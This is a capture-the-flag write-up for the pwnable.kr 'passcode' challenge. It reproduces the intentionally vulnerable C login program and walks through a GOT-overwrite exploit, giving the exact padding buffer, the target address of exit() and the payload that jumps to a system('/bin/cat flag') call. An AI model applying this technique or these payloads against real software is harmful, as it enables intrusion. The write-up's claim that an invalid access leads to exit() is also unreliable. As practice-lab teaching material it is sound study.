 # pwnable.kr -- Toddler's Bottle -- passcode

## 1. Challenge

```
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```

## 2. Solution

Connect target via ssh and see source code:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
    scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
            printf("Login OK!\n");
            system("/bin/cat flag");
    }
    else{
            printf("Login Failed!\n");
            exit(0);
    }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}

```

Obviously, function `scanf()` is called incorrectly.

So we must make sure that `passcode1` and `passcode2` should be a valid address or the program would crash. Of course, we can also leave it empty so addresses that are equal to `passcode1` or `passcode2` would not be accessed.

But what is the value of `passcode1` and `passcode2`? Well, it depends on `char name[100]` in function `welcome()`. Let's see the stack layout of function `welcome()` and `login()`:

![stack_layout](stack_layout.png)

We can find we could affect `passcode1` but could not affect `passcode2`. Because `scanf()` only accepts 100 characters in function `welcome()`.

However, there still one way out. Actually, when program access to a invalid address, it would raise an exception and then calls `exit()` to terminate. So, we can change the offset of function `exit()` at Global Offset Table(GOT) to `0x080485e3`:

```asm
@0x080485e3
mov     dword ptr [esp], offset command ; "/bin/cat flag"
call    _system
```

So you can build exploit buffer:

```python
exp_buf = 'a' * 96 + '\x18\xa0\x04\x08'
```

When you are asked to type your name, just send it.

When you are asked to type `passcode1`, send:

```python
payload = str(0x080485e3)
```
to change the offset of function `exit()` to shell entry(0x080485e3).

Finally, you will get the flag.

